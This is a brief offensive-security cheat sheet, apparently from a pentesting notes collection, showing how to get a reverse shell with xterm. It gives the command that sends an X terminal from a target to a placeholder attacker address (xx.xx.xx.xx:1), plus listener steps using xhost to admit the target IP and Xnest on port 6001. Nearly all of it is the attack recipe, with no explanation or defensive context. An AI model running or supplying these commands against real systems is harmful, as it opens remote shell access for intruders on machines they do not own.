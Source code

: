 # xterm

## Reverse TCP

xterm -display xx.xx.xx.xx:1

## Listener (Port 6001)

xhost +targetip ( Give permission to target ip to connect )\
Xnest :1
